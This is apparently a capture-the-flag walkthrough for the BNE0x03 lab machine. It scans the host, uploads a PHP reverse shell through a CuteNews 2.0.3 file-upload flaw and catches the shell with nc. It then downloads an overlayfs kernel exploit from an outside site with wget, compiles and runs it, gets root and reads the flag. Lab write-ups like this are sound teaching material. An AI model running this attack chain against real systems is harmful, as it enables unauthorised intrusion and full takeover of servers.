 # BNE0x03
Initial recon shows a single port open(80) with a web server running.
```console
root@kali:~# unicornscan -I -mT 192.168.2.104:a;unicornscan -I -mU 192.168.2.104:a
TCP open 192.168.2.104:80  ttl 64
TCP open                    http[   80]         from 192.168.2.104  ttl 64
```
The web server is serving CuteNews 2.0.3. A quick google search shows this version is vulnerable to a [file upload vulnerability](https://www.exploit-db.com/exploits/37474/). First we'll have to create a user account, login and browse to the "Personal Options" section under the dashboard to upload our [php reverse shell](http://pentestmonkey.net/tools/web-shells/php-reverse-shell). In the advisory it's mentioned that you need to modify post request to rename the image but I didn't have to do this and was able to directly upload a php file. Luckily for us the uploads folder where the php reverse shell has been placed has directory listing enabled so we can simply browse to the folder and trigger the reverse shell. Even if directory listings was disabled for the uplaods folder the files have a predictable filename of `avatar_$USERNAME_$FILENAME`.
```console
root@kali:~# curl http://192.168.2.104/uploads/avatar_a_prs.php
root@kali:~# nc -lvvp 443
listening on [any] 443 ...
connect to [192.168.2.103] from simple.kuruwita.org [192.168.2.104] 57433
Linux simple 3.16.0-30-generic #40~14.04.1-Ubuntu SMP Thu Jan 15 17:45:15 UTC 2015 i686 i686 i686 GNU/Linux
 02:38:09 up 10 min,  0 users,  load average: 0.00, 0.04, 0.04
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
```
A quick google of the kernel version shows that it's vulnerable to an [overlayfs privledge escalation vulnerability](https://www.exploit-db.com/exploits/37292/). We find that conviently the server has gcc installed so we can simply download and compile the exploit on the server
```console
$ gcc
gcc: fatal error: no input files
compilation terminated.
$ cd /tmp
$ wget https://www.kernel-exploits.com/media/ofs_32.c
--2016-05-01 02:40:17--  https://www.kernel-exploits.com/media/ofs_32.c
Resolving www.kernel-exploits.com (www.kernel-exploits.com)... 104.31.66.163, 104.31.67.163
Connecting to www.kernel-exploits.com (www.kernel-exploits.com)|104.31.66.163|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: 5123 (5.0K) [text/x-csrc]
Saving to: 'ofs_32.c'

     0K .....                                                 100% 8.11M=0.001s

2016-05-01 02:40:18 (8.11 MB/s) - 'ofs_32.c' saved [5123/5123]

$ gcc ofs_32.c
$ ls
a.out
ofs_32.c
$ ./a.out
spawning threads
mount #1
mount #2
child threads done
/etc/ld.so.preload created
creating shared library
sh: 0: can't access tty; job control turned off
# id
uid=0(root) gid=0(root) groups=0(root),33(www-data)
# cd /root
# ls
flag.txt
# cat flag.txt
U wyn teh Interwebs!!1eleven11!!1!
Hack the planet!
```
The flag is **U wyn teh Interwebs!!1eleven11!!1!**

**Hack the planet!**
